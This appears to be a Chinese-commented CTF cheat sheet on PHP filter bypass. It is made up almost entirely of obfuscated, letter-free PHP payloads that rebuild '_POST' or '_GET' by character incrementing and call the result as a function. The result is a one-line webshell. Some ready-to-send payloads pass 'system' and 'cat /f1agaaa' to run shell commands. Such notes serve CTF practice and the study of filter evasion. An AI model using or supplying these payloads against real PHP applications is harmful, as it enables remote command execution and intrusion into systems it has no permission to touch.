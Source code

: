 ```php
payload
z=$_=[].'';$_=$_[''=='$'];$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$____;$$_[__]($$_[_]);&__=system&_=cat /f1agaaa
//$_POST[__]($_POST[_]);

x=$_=[]._;$__=$_['!'=='='];$__++;$__++;$__++;$___=++$__;++$__;$___=++$__.$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$___=$___.++$__;$_='_'.$___;($$_[_])($$_[__]);
//相当于 ($_GET[_])($_GET[__])  使用的时候url编码一下
```

#### 限制字符

```php
<?php
$a=(0/0);//NAN
$a.=_;//NAN_
$a=$a[0];//N
$a++;//O
$o=$a++;//$o=$a++是先把$a的值给$o,然后再对$a进行自增，所以这一句结束的时候 $a是P，$o是O
$p=$a++;//$a=>Q,$p=>P
$a++;$a++;//R
$s=$a++;//S
$t=$a;//T
$_=_;//_
$_.=$p.$o.$s.$t;//_POST
$$_[0]($$_[1]);//$_POST[0]($_POST[1]);
```

```php
payload
x=$%ff=(0/0);$%ff.=_;$%ff=$%ff[0];$%ff%2b%2b;$%fd=$%ff%2b%2b;$%fe=$%ff%2b%2b;$%ff%2b%2b;$%ff%2b%2b;$%fc=$%ff%2b%2b;$%fb=$%ff;$_=_;$_.=$%fe.$%fd.$%fc.$%fb;$$_[0]($$_[1]);&0=system&1=cat /f1agaaa
```

#### 限制字符2

```php
<?php
$a=[_/_._](0);//直接拼接成字符串并切片
$o=++$a;//$o=++$a是先把$a进行自增，自增完成之后再将值返回，也就是这一句结束的时候 $a和$o都是O
$o=++$a.$o;//$o=>PO,$a=>P
$a++;//Q
$a++;//R
$o.=++$a;//$o=>POS,$a=>S
$o.=++$a;//$o=>POST,$a=>T
$_=_.$o;//_POST
$$_[0]($$_[_]);//$_POST[0]($_POST[_]);

// $a=(_/_._)[0];
// _/_ 就是除法，得出来就是NAN,效果等同于（0/0）
// ._是使NAN后拼接一个_,是其变成字符串NAN_ //在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串
// 于是$a=(_/_._)[0]=N

```
